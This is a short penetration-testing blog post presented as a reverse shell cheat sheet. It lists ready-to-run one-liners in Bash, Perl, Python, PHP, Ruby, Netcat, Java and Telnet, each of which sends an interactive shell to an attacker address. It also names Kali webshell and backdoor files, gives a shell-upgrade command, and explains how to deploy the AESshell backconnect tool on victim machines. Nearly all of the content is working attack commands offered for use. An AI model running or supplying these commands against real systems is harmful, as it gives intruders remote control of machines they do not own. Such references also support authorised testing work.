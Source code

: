 ```yaml
---
layout: post
title:  "Reverse Shell 1337 Sh33t"
date:   2018-11-09 09:00:00 +1100
categories: [reverse-shell]
permalink: /:title:output_ext
comments: true
---
```

<br>
**Sources:**
[Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and 
[Highon.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

------
**Bash**

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

------
**Perl**

    perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    OR
    perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
    
------
**Python**

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

------
**PHP**

    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
    (Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
    
------
**Ruby**

    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    
------
**Netcat**

    nc -e /bin/sh 10.0.0.1 1234
    OR
    /bin/sh | nc ATTACKING-IP 80
    OR
    rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
    
-- If we have the wrong version of netcat installed, we can use the following:

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
    
------
**Java**

    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()

------
**Telnet**

    rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
    OR
    telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
    
------
### Webshells on Kali

    root@kali:~/Desktop# ls -l /usr/share/webshells/*

------
**ASP Shell**

    /usr/share/webshells/asp:
    total 8
    -rw-r--r-- 1 root root 1200 Aug 18  2015 cmd-asp-5.1.asp
    -rw-r--r-- 1 root root 1526 Aug 18  2015 cmdasp.asp

------
**ASPX Shell**

    /usr/share/webshells/aspx:
    total 4
    -rw-r--r-- 1 root root 1400 Aug 18  2015 cmdasp.aspx

------
**Cold Fusion Shell**

    /usr/share/webshells/cfm:
    total 4
    -rw-r--r-- 1 root root 1285 Aug 18  2015 cfexec.cfm

------
**JSP Shell**

    /usr/share/webshells/jsp:
    total 8
    -rw-r--r-- 1 root root  725 Aug 18  2015 cmdjsp.jsp
    -rw-r--r-- 1 root root 2451 Aug 18  2015 jsp-reverse.jsp

------
**Perl Shell**

    /usr/share/webshells/perl:
    total 8
    -rw-r--r-- 1 root root  585 Aug 18  2015 perlcmd.cgi
    -rwxr-xr-x 1 root root 3712 Aug 18  2015 perl-reverse-shell.pl

------
**PHP Shell**
   
    /usr/share/webshells/php:
    total 44
    -rw-r--r-- 1 root root  4515 Aug 18  2015 findsock.c
    -rw-r--r-- 1 root root  2800 Aug 18  2015 php-backdoor.php
    -rwxr-xr-x 1 root root  3467 Aug 18  2015 php-findsock-shell.php
    -rwxr-xr-x 1 root root  5491 Aug 18  2015 php-reverse-shell.php
    -rw-r--r-- 1 root root 13585 Aug 18  2015 qsd-php-backdoor.php
    -rw-r--r-- 1 root root   328 Aug 18  2015 simple-backdoor.php
    root@kali:~/Desktop#

-- Use **simple-backdoor.php** to quickly check for RCE and **php-reverse-shell.php** for a reverse shell and if python is running on the target machine, then run <br><code>python -c 'import pty; pty.spawn("/bin/bash")'</code> to get interactive tty shell.

------
\-- Another option is python pty shell found [here](https://github.com/infodox/python-pty-shells). Upload **tcp_pty_backconnect.py** and run **tcp_pty_shell_handler.py** on Kali to receive the shell.

------
\-- [AESshell](https://github.com/curesec/tools/tree/master/aesshell) written in Python for Windows and Linux

Create a new package:
```$ ./prepare.py```

Build Exe:

```C:\pyinstaller -F bc.spec```

Test it:
```C:\dist\bc.exe```

Attacker expecting a MS remote shell:
```$ python listen.py -lip 0.0.0.0 -lport 1443 -os win```

Attacker expecting a unix remote shell:
```$ python listen.py -lip 0.0.0.0 -lport 1443 -os lnx```

**Usage bc.py / bc.exe**

    $ python2 bc.py -h
    usage: AESshell backconnect (bc.py) [-h] -rip RIP -rport RPORT</code>

    optional arguments:
    -h, --help    show this help message and exit
    -rip RIP      Remote IP you want to connect to
    -rport RPORT  Remote Port you want to connect to

Victim MS-Windows:
<code>C:\bc.exe -rip 192.168.1.1 -rport 1443</code>

Victim \*nix with python interpreter:
<code>$ python bc.py -rip 192.168.1.1 -rport 1443</code>

